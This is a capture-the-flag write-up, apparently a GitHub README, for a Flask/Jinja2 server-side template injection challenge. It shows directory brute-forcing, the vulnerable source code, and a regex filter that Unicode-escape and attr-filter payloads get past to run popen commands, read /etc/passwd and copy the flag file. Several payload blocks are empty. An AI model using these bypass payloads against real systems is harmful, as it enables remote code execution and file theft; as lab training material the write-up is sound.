



# Solve strength-calculator
#### https://cybertalents.com/challenges/web/strength-calculator
The perfect website to calculate the strength of your name! Who is the strongest ?

### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mwl32pnnte3e6j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

### Analyze source & static endpoints
We found the source code in `/source`
```bash
curl -I http://wcamxwl32pue3e6mwl32pnnte3e6j6zqdkgxu639-web.cybertalentslabs.com/static
HTTP/1.1 301 Moved Permanently
Server: nginx/1.27.1
Date: Thu, 06 Feb 2025 23:12:05 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive
Location: http://wcamxwl32pue3e6mwl32pnnte3e6j6zqdkgxu639-web.cybertalentslabs.com/static/

                                                                                                                                                 
curl -I http://wcamxwl32pue3e6mwl32pnnte3e6j6zqdkgxu639-web.cybertalentslabs.com/static/
HTTP/1.1 403 Forbidden
Server: nginx/1.27.1
Date: Thu, 06 Feb 2025 23:12:17 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive
```

### Analyze the source code 
```python
from flask import Flask, render_template, request, render_template_string, send_file
import re,os
def calculateStrength(name):
	strength = 0
	for _ in name:
		strength += ord(_)
	return str(strength)
def isAdmin():
	# We didn't implement this yet so no one is an admin
	return False
app = Flask('AAA')
app.secret_key=os.urandom(32)
@app.route('/',methods=['POST','GET'])
def index():
	if request.method == 'POST':
		if re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)",request.form['name']) is not None:
			name= "Hacking detected"
			return render_template("index.html", name=name,response="0")
		else:
			name = "Name : "+render_template_string(request.form['name'])
			response = "Strength : "+ calculateStrength(request.form['name'])
			if isAdmin():
				return render_template("index.html", name=name,  response=response)
			else:
				return render_template("index.html",name="Guest", response=response)
	if request.method == 'GET':
		return render_template("index.html")

@app.route("/source")
def get_source():
	return send_file("./main.py",as_attachment=True)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```
The website lets you input a name and calculates its strength based on the **sum of the ASCII values** of the characters.

The application takes user input from the name field and passes it directly into `render_template_string(request.form['name'])`, which makes it vulnerable to Server-Side Template Injection (`SSTI`).

The regex is checking for `"\{\{|\}\}|(popen)|..."` etc. So the regex is looking for either `{{ or }}`, or any of the **banned keywords**.

The `re.search()` to block certain words related to command execution and object traversal:
- Template injection characters: `{{ }}`
- Dangerous functions: `popen`, `os`, `subprocess`
- Python object attributes: `application`, `getitem`, `subclasses`, `mro`
- Dot notation and underscores: `., _, [, ], "`

## Server-Side Template Injection (SSTI)
### Identify the template engine
```css
Hello {{ name }}!
```
Hacking detected
```css
${{<%[%'"}}%\.
```
Hacking detected
```css
${7*7}
````
Strength : 436
From the source code `render_template_string` is used for `Jinja2` Template engine by flask.
### Use sstimap.py
```bash
sstimap.py -u http://wcamxwl32pue3e6mwl32pnnte3e6j6zqdkgxu639-web.cybertalentslabs.com -m POST -d 'name=123' -p 127.0.0.1:8080

[-] Tested parameters appear to be not injectable.
```
*Note: it failed due to the regex restrictions*
## Bypass Regex restrictions
### Bypass `{{}}` restrictions

#### `` Bypass

```css
 -> Strength : 1124
 -> Strength : 1176
```

#### `\{\{  \}\}` Bypass restrictions

```css
\{\{7*7\}\}
```
Strength : 1016

Validating the calculateions 
```python
>>> def ascii_sum(s): return sum(ord(c) for c in s)
... 
>>> print(ascii_sum("${7*7}"))
436
>>> print(ascii_sum(""))
1124
>>> print(ascii_sum(""))
1176
>>> print(ascii_sum("\{\{7*7\}\}"))
1016
>>> exit()
```

### Bypass Keyword Filters with Unicode Escapes
```python
p\u006Fpen 
```
Strength : 864

```python

```
Strength : 1474

Use `f1*` instead of `flag.txt` and `'fl*'` instead of `"fl*"` to avoid triggering `\"` in the regex.

## Exploiting SSTI (python/Jinja2)
### Basic RCE payload
```python

```
 Conversions `.` ->  `\u002e` `_` -> `\u005F`

```python

```
500 Internal Server Error

```python

```
Hack detected *(due to the `.` in `x.read()`)*
```python
{%25+set+x+%3d+self\u005f\u005finit\u005f\u005f\u002e\u005f\u005fglobals\u005f\u005f\u002e\u005f\u005fbuiltins\u005f\u005f\u002ep\u006fpen('cp+fla*+static/')+%25}{%25+print+x\u005fread()+%25}
```
500 Internal Server Error
```python

```
500 Internal Server Error
### Basic LFI payload
```python
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
 Conversions `.` ->  `\u002e` / `_` -> `\u005F` / `"` -> `'`
```python

```
500 Internal Server Error

I tried so many payload but I can't debug the `500 Internal Server Error` because it is an internal error 😅 

## Building a local lab
### File Structure 
```bash
app
├── app.py
├── flag.txt
├── static
│   ├── output.txt
│   └── test.txt
└── templates
    └── index.html
```
Note you can find the full code in `/app` and the flask application to run in [app.py](app/app.py)
### Run the local lab 
```bash
python app.py
 * Serving Flask app 'app'
 * Debug mode: on
INFO:werkzeug:WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
INFO:werkzeug:Press CTRL+C to quit
INFO:werkzeug: * Restarting with stat
WARNING:werkzeug: * Debugger is active!
INFO:werkzeug: * Debugger PIN: 930-651-122
```
Note: Visit http://127.0.0.1:5000 to access the lab


### How it works
1. It checks the input through the regex same as the original CTF
2. Process user input through template rendering `render_template_string` and save it to `static/output.txt` for debugging
3. save each test as 
	```txt
	User Input: 
	Rendered Output:     
	Final Name Variable:     
	Strength Calculation: Strength : 
	```
4.  If any error happened (400 or 500 ) can be reviewed in the terminal 

Now we can test the payload and debug them 😎

### Test bypasses 
#### `` Bypass 
```python 

```
```txt
User Input: 
Rendered Output: 49
Final Name Variable: Name : 49
Strength Calculation: Strength : 1176
```
*Note Same result of Strength Calculation (1176) But we now can see the **Rendered Output***
#### `\{\ \}\` Bypass 
```python
\{\{7*7\}\}
```
```txt
User Input: \{\{7*7\}\}
Rendered Output: \{\{7*7\}\}
Final Name Variable: Name : \{\{7*7\}\}
Strength Calculation: Strength : 1016
```
*Note Same result of Strength Calculation (1016) it passes the regex But **Jinja2** couldn't parse it so we will exclude it*

#### Bypass Keyword Filters with Unicode Escapes
```python
p\u006Fpen
```
```txt
User Input: p\u006Fpen
Rendered Output: p\u006Fpen
Final Name Variable: Name : p\u006Fpen
Strength Calculation: Strength : 864
```
*Note it also passes the regex But **Jinja2** couldn't parse it so we will exclude it*
### `attr` bypass 

```python



```
#### Step‐by‐Step Explanation

1. **Retrieve the Built‑ins Object**
    - **`self|attr('\u005f\u005finit\u005f\u005f')`**  
        This is equivalent to accessing `self.__init__` (the initialization method of the current object).
    - **`|attr('\u005f\u005fglobals\u005f\u005f')`**  
        From the `__init__` method, this accesses the global variables via the `__globals__` attribute.
    - **`|attr('get')('\u005f\u005fbuiltins\u005f\u005f')`**  
        Then it calls the `get` method on the `globals` dictionary to retrieve the entry for `"__builtins__"`.  
        _Note: The underscores are represented by Unicode escapes (`\u005f`) to avoid direct detection by filters._
    **Result:**  
    The variable `a` now holds the built‑ins object, which gives access to Python’s built‑in functions like `open`.
2. **Open and Read the File "flag.txt"**
    - **`a|attr('get')('open')`**  
        This retrieves the built‑in `open` function from the built‑ins object.
    - **`('fl'+'ag\u002etxt')`**  
        The filename is built by concatenating two strings: `"fl"` and `"ag\u002etxt"`. Here, `\u002e` is the Unicode escape for the period (`.`).  
        This constructs the string **"flag.txt"** without writing the entire banned literal directly.
    - **`|attr('read')()`**  
        After opening the file, the `read()` method is called on the file handle to obtain its full content.
    **Result:**  
    The variable `b` now contains the content of the file "flag.txt".
3. **Print the File Content**
    - **``**  
        This prints the content stored in `b` so that the template output displays the file’s content.

Tested 
```txt
User Input:   
Rendered Output:   TEST FLAG
Final Name Variable: Name :   TEST FLAG
Strength Calculation: Strength : 18060
```
*Note: it worked but we can't access the Rendered Output in the main CTF. So we need to write the flag to `/static` directory to be able to see it.*
### Write the flag to file in `/static`
```python






```
- Retrieves the `__builtins__` object (a).
- Gets the open function (`openf`).
- Reads the content of "flag.txt" (content).
- Opens `"static/flag.txt"` in write mode ('w').
- Writes the content of "flag.txt" into `"static/flag.txt"`.
- Closes the file.
We get Hack detected due to `static/flag.txt` is parse it and viewed by the regex.

```python






```
Similar to the first payload but:
- The output file is `"static/out"` instead of `"static/flag.txt"`, which may bypass regex filters checking for `"flag"` and for `.`
- Uses `_` instead of explicitly naming variables (r, c) when writing and closing the file improving stealth.

We got error 500 most likely due to the permission to write a new file to `/static` 

### RCE
```python





```
Worked on both local and the CTF so we need only to print the output to `static/` we can access it.

```python





```


```python





```

Flag : FLAG{SStI_F1lT3rS_4r3_H4rD}

### Resources 
[SSTImap Github](https://github.com/vladko312/SSTImap)
[SSTI Hacktriks](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection)
[SSTI Portswigger](https://portswigger.net/web-security/server-side-template-injection)


>Find More on ==> github.com/MedhatHassan 